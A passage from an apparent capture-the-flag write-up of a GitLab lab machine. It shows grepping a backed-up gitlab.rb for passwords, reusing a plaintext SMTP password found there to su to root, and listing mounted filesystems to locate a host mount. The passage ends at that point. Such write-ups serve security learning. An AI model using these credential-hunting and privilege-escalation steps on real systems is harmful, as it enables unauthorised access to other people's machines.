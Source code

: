 There are some interesting files there, and when reading the longest one let's check for passwords.

```
git@gitlab:/opt/backup$ cat gitlab.rb  | grep password
#### Email account password
# gitlab_rails['incoming_email_password'] = "[REDACTED]"
#     password: '_the_password_of_the_bind_user'
#     password: '_the_password_of_the_bind_user'
#   '/users/password',
#### Change the initial default admin password and shared runner registration tokens.
# gitlab_rails['initial_root_password'] = "password"
# gitlab_rails['db_password'] = nil
# gitlab_rails['redis_password'] = nil
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
# gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
# postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
# postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
# redis['password'] = 'redis-password-goes-here'
####! **Master password should have the same value defined in
####!   redis['password'] to enable the instance to transition to/from
# redis['master_password'] = 'redis-password-goes-here'
# geo_secondary['db_password'] = nil
# geo_postgresql['pgbouncer_user_password'] = nil
#     password: PASSWORD
###! generate this with `echo -n '$password + $username' | md5sum`
# pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
#     password: MD5_PASSWORD_HASH
# postgresql['pgbouncer_user_password'] = nil
```

There's a password `wW59U!ZKMbG9+*#h`, and we can use this to `su` to `root`.&#x20;

### Mounted File System

Now that we are `root` on the machine, I thought that was it. But, the flag was not within the `/root` directory.

```
root@gitlab:~# ls -la
total 20
drwx------ 1 root root 4096 Apr  5  2022 .
drwxr-xr-x 1 root root 4096 Apr  5  2022 ..
-rw------- 1 root root   57 Apr  5  2022 .bash_history
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
```

When checking the mounted drives, we can see that there are files within the `/dev/sda2` folder:

```
root@gitlab:/# df
Filesystem     1K-blocks    Used Available Use% Mounted on
overlay          9670964 7800656   1754340  82% /
tmpfs              65536       0     65536   0% /dev
tmpfs            2015084       0   2015084   0% /sys/fs/cgroup
/dev/sda2        9670964 7800656   1754340  82% /root_pass
shm                65536     580     64956   1% /dev/shm
```
